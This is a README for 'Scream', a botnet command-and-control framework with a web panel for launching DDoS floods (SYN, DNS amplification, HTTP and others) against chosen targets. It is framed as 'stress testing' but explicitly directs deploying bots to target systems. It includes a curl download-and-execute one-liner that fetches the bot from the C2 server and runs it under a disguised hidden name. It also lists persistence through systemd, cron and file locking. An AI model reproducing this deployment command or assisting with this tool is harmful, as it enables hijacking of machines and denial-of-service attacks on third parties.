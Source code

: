# Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/42758c97-a105-4798-a82a-a3229643f98e" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
  </tr>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
  </tr>
</table>

## Features

### Web-based Management Interface
- Real-time bot monitoring  
- Attack control panel  
- User management system  
- Attack history tracking  

### Stress Testing Capabilities
- UDP Flood  
- TCP Flood  
- SYN Flood  
- ACK Flood  
- GRE Flood  
- DNS Amplification  
- HTTP Flood  

### Bot Management
- Automatic bot connection handling  
- Heartbeat monitoring  
- Hardware resource reporting  
- Remote command execution  

### Security Features
- Challenge-response authentication  
- TLS encrypted communications  
- Session management  
- Password complexity enforcement  

---

## Installation

### Prerequisites
- Go 1.18+ installed  
- Basic server with root access  
- Domain name (recommended for SSL)  

### Quick Start

**Clone the repository:**
```bash
git clone https://github.com/yourusername/scream-c2.git
cd scream-c2
```

**Build the server and bot:**
```bash
go build -o server main.go
go build -o bot bot.go
```

**Generate SSL certificates (if needed):**
```bash
./server --gen-cert
```

**Start the server:**
```bash
./server
```

**Deploy the bot to target systems.**

---

## Configuration

### Server Configuration
The server can be configured by modifying the constants in `main.go`:

```go
const (
    USERS_FILE          = "users.json"         // User database file
    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
    BOT_SERVER_PORT     = "7003"               // Bot connection port
    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
    WEB_SERVER_PORT     = "443"                // Web interface port
    CERT_FILE           = "server.crt"         // SSL certificate
    KEY_FILE            = "server.key"         // SSL private key
)
```

### Bot Configuration
Modify the C2 address in `bot.go`:

```go
const (
    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
)
```

---

## Usage

### Accessing the Web Interface
Navigate to `https://your-server-ip` in your browser

**Login with the default credentials:**
- **Username:** `root`
- **Password:** *(generated on first run, check console output)*

### Managing Bots
- The dashboard shows all connected bots  
- View bot details by clicking on a bot in the list  
- Monitor bot status (active/inactive) via the status indicator  

### Launching Attacks
- Select an attack method from the dropdown  
- Enter the target IP/hostname  
- Specify the target port  
- Set the duration (in seconds)  
- Click **"Initiate Attack Sequence"**

### User Management
Admin/Owner users can:
- Create new users  
- Delete existing users  
- Modify user access levels  

---

## Security Considerations

⚠️ **Important Security Notes:**
- Change the default root password immediately after first login  
- Use strong, complex passwords for all user accounts  
- Restrict access to the web interface (firewall rules, VPN, etc.)  
- Regularly monitor and audit user activity  
- Keep the server software updated  

---

## Bot Deployment

### Linux Deployment

```bash
# Download and execute
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
The bot includes several persistence mechanisms:
- Systemd service  
- Cron job  
- File locking (prevent deletion)  

---

## Troubleshooting

### Common Issues

#### Bots not connecting:
- Verify the C2 address in the bot binary  
- Check firewall rules on the server  
- Ensure the bot server is running on the correct port  

#### Web interface not loading:
- Verify SSL certificates are properly configured  
- Check if the web server is running  
- Ensure port 443 (or your configured port) is open  

#### Attack not working:
- Verify target IP/port is correct  
- Check if bots are properly connected  
- Ensure the attack method is appropriate for the target  

---

## License
This software is provided for educational and research purposes only. The authors are not responsible for any misuse of this tool.

